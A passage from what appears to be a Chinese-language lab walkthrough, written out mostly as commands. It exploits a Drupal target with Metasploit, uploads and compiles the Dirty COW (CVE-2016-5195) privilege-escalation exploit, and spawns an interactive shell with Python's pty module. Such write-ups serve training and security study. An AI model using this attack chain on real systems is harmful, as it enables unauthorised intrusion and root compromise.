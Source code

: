   ```apl
   #在kali终端启动msf
   msfconsole
   
   #进入msf后，搜寻相应漏洞
   search Drupal
   ```

   ![启动msf](https://minioapi.laffrex.top/laffrex/pictures/2024/10/29/202410291559482.png)

   ![image-20241029160001320](https://minioapi.laffrex.top/laffrex/pictures/2024/10/29/202410291600358.png)

5. 这里使用编号=1的exp，设置需要监听的主机，并启动

   ```apl
   use 1
   
   set RHOSTS 192.168.243.55	#靶机ip
   set RPORT 1898		#靶机对应Drupal端口
   run
   ```

   ![使用exp](https://minioapi.laffrex.top/laffrex/pictures/2024/10/29/202410291603911.png)

6. 查看系统内核版本

   * 注意：需要在msf中使用`shell`指令提前进入交互模式，否则无法使用查看内核命令

     ```
     uname -r
     ```

     ![进入shell](https://minioapi.laffrex.top/laffrex/pictures/2024/10/29/202410291605560.png)

7. 退出shell，通过msf上传exp到靶机中

   * 通过 https://github.com/gbonacini/CVE-2016-5195 获取exp

   ![上传exp](https://minioapi.laffrex.top/laffrex/pictures/2024/10/29/202410291607289.png)

8. 再次进入shell，对该exp进行编译（也可以提前在kali中编译好并上传）

   ```apl
   g++ -Wall -pedantic -o2 -std=c++11 -pthread -o dcow dcow.cpp -lutil
   
   ```

9. 获取交互式shell

   * 先查看是否有python环境，如果没有，则使用其他获取交互式shell方法

   ```apl
   whereis python
   ```

   ![image-20241029161302158](https://minioapi.laffrex.top/laffrex/pictures/2024/10/29/202410291613180.png)

   ```apl
   python -c 'import pty; pty.spawn("/bin/bash")'
   ```
